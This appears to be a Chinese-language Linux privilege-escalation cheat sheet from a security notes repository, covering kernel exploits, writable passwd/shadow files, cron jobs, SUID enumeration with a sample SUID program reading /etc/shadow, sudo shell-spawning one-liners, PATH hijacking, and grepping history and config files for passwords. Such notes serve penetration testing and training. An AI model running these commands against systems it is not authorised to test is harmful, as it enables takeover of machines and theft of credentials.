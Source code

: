 ```yaml
---
title: Linux权限提升
description: Linux权限提升方式
categories:
 - Linux
tags:
 - Linux
---
```


### 内核溢出提权（linux-kernel-exploits）
可以用使用`uname -a`查看内核版本，使用`cat /etc/issue`和`cat /etc/*-release`查看发行版

根据内核和发行版版本可以使用[SecWiki提权合集](https://github.com/SecWiki/linux-kernel-exploits)或者kali上searchsploit来搜索exploitdb的利用代码，需要根据系统情况对exp进行调整，比如磁盘格式和编译好的兼容性

### passwd和shadow提权
`/etc/passwd`文件如果普通用户可写，就可以将root用户的密码字段（一般显示*）号，修改成已知密码的hash

`/etc/shadow`文件如果普通用户可读，就可以读取root的hash，然后尝试暴力破解

### 计划任务提权 
系统内执行的定时任务，一般是由crontab来管理，一般这些定时任务程序由所属用户的权限，以root权限执行，如果其中一个程序可被当前用户写，被root执行，就可以在程序中添加反弹shell等获取root权限

检查列表
```
crontab -l
ls -la /etc/cron*
ls -la /etc/ | grep cron
ls -alh /var/spool/cron
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

### SUID
使用命令获取SUID执行的文件
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -perm +2000 -user root -type f -print
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done  
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```

比如
``` 
# suid.c
# inclue <stdlib.h>
# include <unistd.h>

int main() 
{
    setuid(0);
    system("id");
    system("cat /etc/shadow");
}

gcc suid.c -o suid-exp  # root编译
chmod 4755 ./suid-exp  # 设置suid位
```

普通用户获取到这个程序时，一方面可以直接用这个程序读取`/etc/shadow`，已经算提升权限了，这方面的问题比较少，只有nmap这种有交互shell的程序可能会比较有用，还有编辑器、解释器、编译器程序，另一方面，上面system函数继承当前用户的环境变量，可以设置PATH的环境变量优先找到自己修改cat命令，借此提权

### SUDO提权
`sudo -l`可以查看可用于sudo的程序

`sudo find /home -exec sh -i \;`，查找命令的exec参数可以用于任意代码执行

`sudo python -c 'import pty;pty.spawn('/bin/bash');`，给语言编辑器、解释器等赋予SUDO权限也可以提权

### PATH变量的优先环境提权
除了上面提到的还有当root用户的PATH变量中存在`.`时，可以诱骗root用户到某个目录下，比如执行`ls`命令，在当前目录添加一个ls的反弹shell，就可以获取权限

### 攻击以root权限运行的服务
`ps -aux | grep root`

比如连接MySQL后用MySQL注入的方式获取shell或者获取有root的权限的webshell

获取这些服务的位置，查看是否有可写入的地方，就可以修改启动程序，等待服务重启

### 找到明文存储的用户名和密码
```
/var/apache2/config.inc
/var/lib/mysql/mysql/user.MYD
/root/anaconda-ks.cfg
~/.bash_history
~/.nano_history
~/.atftp_history
~/.mysql_history
~/.php_history
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
grep . -name "*.php" -printO | xargs -O grep -i -n "var $password"
```

### 参考文档

https://www.xmsec.cc/guide-linux-privilege-escalation/

